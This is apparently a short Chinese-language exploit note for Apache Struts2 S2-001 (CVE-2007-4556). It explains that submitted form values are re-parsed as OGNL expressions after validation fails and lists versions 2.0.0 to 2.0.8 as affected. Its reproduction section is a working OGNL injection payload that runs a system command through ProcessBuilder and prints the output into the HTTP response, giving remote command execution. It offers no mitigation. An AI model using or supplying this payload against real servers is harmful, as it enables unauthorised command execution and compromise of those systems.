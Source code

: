 （CVE-2007-4556）s2-001
=======================

一、漏洞简介
------------

因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用
OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中

二、漏洞影响
------------

2.0.0-2.0.8

三、复现过程
------------

### poc

图片.png

    %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
